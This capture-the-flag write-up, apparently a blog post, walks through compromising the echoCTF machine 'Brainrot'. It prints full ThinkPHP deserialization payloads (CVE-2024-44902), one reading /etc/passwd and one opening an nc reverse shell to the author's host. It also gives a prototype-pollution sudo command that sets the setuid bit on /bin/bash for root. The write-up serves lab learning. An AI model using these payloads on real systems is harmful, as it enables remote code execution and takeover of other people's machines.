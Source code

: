 ```yaml
---
description: >-
  Brainrot echoCTF Machine
title: Brainrot (Advanced)                # Add title here
date: 2025-01-26 08:00:00 -0600                           # Change the date to match completion date
categories: [echoCTF, Advanced]                     # Change Templates to Writeup
tags: []     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: true                                    # Change this to true
image: /assets/img/icons/Brainrot.png                # Add infocard image here for post preview image
---
```

##### Host entries
```bash
10.0.14.38
```

### Content

- ThinkPHP Deserialization vulnerability [CVE-2024-44902]
- Protoype Pollution on @bit/loader [CVE-2024-24293]

### Reconnaissance

Initial reconnaissance for TCP ports
```bash
# Nmap 7.94SVN scan initiated Sun Jan 26 23:29:37 2025 as: nmap -p- -sS --open --min-rate 500 -Pn -n -vvvv -oG allPorts 10.0.14.38
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.0.14.38 ()     Status: Up
Host: 10.0.14.38 ()     Ports: 22/open/tcp//ssh///, 80/open/tcp//http///
```
Services and Versions running:
```bash
Host is up, received user-set (0.17s latency).
Scanned at 2025-01-29 00:56:39 EST for 58s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 74:83:fc:82:0e:02:d9:63:59:80:9f:f9:de:31:17:87 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBO40e2JaSpjhdqxYQ6C2x/SBYzN1gMVUESNpCDIJSStS92QBgqpbKSZpZQaFZ2L/m2jucsTRW+48uSqdL0TsrlY=
|   256 cc:8a:34:47:e0:4e:7b:c7:7b:e0:31:56:db:63:2c:b8 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMOL2ddjfYthCMDlkADh4dnHZ4+TwZXYHrMOhcLxySy2
80/tcp open  http    syn-ack ttl 63 (PHP 8.2.24)
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 Not Found

|_    Allow:GET, POST, PUT, DELETE
| http-methods: 
|   Supported Methods: GET POST PUT DELETE
|_  Potentially risky methods: PUT DELETE
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
```

### Exploitation

Only HTTP port open, with the following number, which seems to be a version:

![](/assets/img/Pasted-image-20250126223838.png)

Then we have enough information to lookup for the name of the technology running on this port, and the only perfect match is ThinkPHP:

![](/assets/img/Pasted-image-20250126223454.png)

While investigating, I found a vulnerability CVE-2024-44902 on ThinkPHP version 8.0.4:

![](/assets/img/Pasted-image-20250126224019.png)

The payload is an image so I have to extract the data from it, the OS command within the payload is `whoami`:
```bash
x=O%3A28%3A%22think%5Croute%5CResourceRegister%22%3A2%3A%7Bs%3A13%3A%22%00%2A%00registered%22%3Bb%3A0%3Bs%3A11%3A%22%00%2A%00resource%22%3BO%3A15%3A%22think%5CDbManager%22%3A2%3A%7Bs%3A11%3A%22%00%2A%00instance%22%3Ba%3A0%3A%7B%7Ds%3A9%3A%22%00%2A%00config%22%3Ba%3A2%3A%7Bs%3A11%3A%22connections%22%3Ba%3A1%3A%7Bs%3A7%3A%22getRule%22%3Ba%3A2%3A%7Bs%3A4%3A%22type%22%3Bs%3A29%3A%22%5Cthink%5Ccache%5Cdriver%5CMemcached%22%3Bs%3A8%3A%22username%22%3BO%3A17%3A%22think%5Cmodel%5CPivot%22%3A4%3A%7Bs%3A17%3A%22%00think%5CModel%00data%22%3Ba%3A1%3A%7Bs%3A6%3A%22fru1ts%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22cat%20%2Fetc%2Fpasswd%22%3B%7D%7Ds%3A21%3A%22%00think%5CModel%00withAttr%22%3Ba%3A1%3A%7Bs%3A6%3A%22fru1ts%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22system%22%3B%7D%7Ds%3A7%3A%22%00%2A%00json%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22fru1ts%22%3B%7Ds%3A12%3A%22%00%2A%00jsonAssoc%22%3Bb%3A1%3B%7D%7D%7Ds%3A7%3A%22default%22%3Bs%3A7%3A%22getRule%22%3B%7D%7D%7D
```

And then the payload retrieves the information as follows:

![](/assets/img/Pasted-image-20250126230927.png)

Now the interesting part here, is that you need to provide the length of the payload you want to execute (number 6 for whoami), prior to sent the payload:

![](/assets/img/Pasted-image-20250126234525.png)

So in order to get a reverse shell, we get the length of the string and then change it by the 6 instead:

![](/assets/img/Pasted-image-20250126234859.png)

This is the final payload I use:

```bash
x=O%3A28%3A%22think%5Croute%5CResourceRegister%22%3A2%3A%7Bs%3A13%3A%22%00%2A%00registered%22%3Bb%3A0%3Bs%3A11%3A%22%00%2A%00resource%22%3BO%3A15%3A%22think%5CDbManager%22%3A2%3A%7Bs%3A11%3A%22%00%2A%00instance%22%3Ba%3A0%3A%7B%7Ds%3A9%3A%22%00%2A%00config%22%3Ba%3A2%3A%7Bs%3A11%3A%22connections%22%3Ba%3A1%3A%7Bs%3A7%3A%22getRule%22%3Ba%3A2%3A%7Bs%3A4%3A%22type%22%3Bs%3A29%3A%22%5Cthink%5Ccache%5Cdriver%5CMemcached%22%3Bs%3A8%3A%22username%22%3BO%3A17%3A%22think%5Cmodel%5CPivot%22%3A4%3A%7Bs%3A17%3A%22%00think%5CModel%00data%22%3Ba%3A1%3A%7Bs%3A6%3A%22fru1ts%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A32%3A%22%6e%63%20%2d%65%20%2f%62%69%6e%2f%62%61%73%68%20%31%30%2e%31%30%2e%35%2e%31%32%32%20%31%32%33%34%22%3B%7D%7Ds%3A21%3A%22%00think%5CModel%00withAttr%22%3Ba%3A1%3A%7Bs%3A6%3A%22fru1ts%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22system%22%3B%7D%7Ds%3A7%3A%22%00%2A%00json%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22fru1ts%22%3B%7Ds%3A12%3A%22%00%2A%00jsonAssoc%22%3Bb%3A1%3B%7D%7D%7Ds%3A7%3A%22default%22%3Bs%3A7%3A%22getRule%22%3B%7D%7D%7D
```

### Privilege Escalation
There is a binary that can be executed as Sudo without credentials:
![](/assets/img/Pasted-image-20250126235201.png)

The content of such binary is this:
![](/assets/img/Pasted-image-20250126235216.png)

There is a Prototype Pollution vulnerability on `@bit/loader`:

![](/assets/img/Pasted-image-20250126235402.png)

After several attempts and also a good chatGPT aid, I came with the following payload:
```bash
www-data@brainrot:/$ sudo /usr/local/bin/bitrot '{"__proto__": {"is_admin": true, "properties": {"username": "ebbg", "cmd": "require(\"child_process\").exec(\"chmod +s /bin/bash\")"}}}'

```
That allows us to run `/bin/bash` as root:
```bash
www-data@brainrot:/$ /bin/bash -p
bash-5.2# whoami
root
```

### Post Exploitation

Flags are stored at:

`/etc/passwd`
`/etc/shadow`
`environment variables (env command)`
`/root`


### Credentials

No credentials were found on this machine.

### Notes

-  For Prototype Pollution attacks, specially if this are crafted with JSON, it is really important to escape key chars such as doble quote ("), because the payload sometimes is not working while trying to exploit this vulnerability. 

### References

- [Protoype Pollution on @bit/loader](https://security.snyk.io/vuln/SNYK-JS-BITLOADER-6928980)
- [ThinkPHP Deserialization vulnerability](https://github.com/fru1ts/CVE-2024-44902)

